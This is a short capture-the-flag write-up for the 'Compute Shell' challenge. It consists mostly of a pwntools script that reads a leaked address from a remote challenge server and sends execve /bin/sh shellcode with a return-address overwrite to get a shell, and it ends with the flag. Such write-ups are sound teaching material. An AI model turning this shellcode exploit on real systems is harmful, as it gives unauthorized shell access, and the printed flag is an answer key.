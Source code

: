 # Compute Shell

### Challenge Author

[b3y0nd3r](https://twitter.com/GeethnaTk)

### Challenge Description

Von Neumann Architecture - a boon to Computer Science, but its major strength hides a weakness. Junior Kathleen is working on a meek looking code but looks like this could be hiding the unknown. Gear up and turn the "alpha" in your favour!

### Short writeup

A simple shellcode challenge. 

```python
from pwn import *
#p = process("./chall")
p = remote('34.72.218.129',3333)
p.recvuntil("Memory leak detected:")
p.recvline()
leak = int(p.recvline().strip(),16)
print(hex(leak))
#gdb.attach(p)
p.recvuntil("Enter your code of action:")
exp  = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05".ljust(0x48,"\x90")
exp += p64(leak)
print(len(exp))
p.sendline(exp)
p.interactive()
``` 

### Flag

shaktictf{cracking_v0n_neUmann_up}

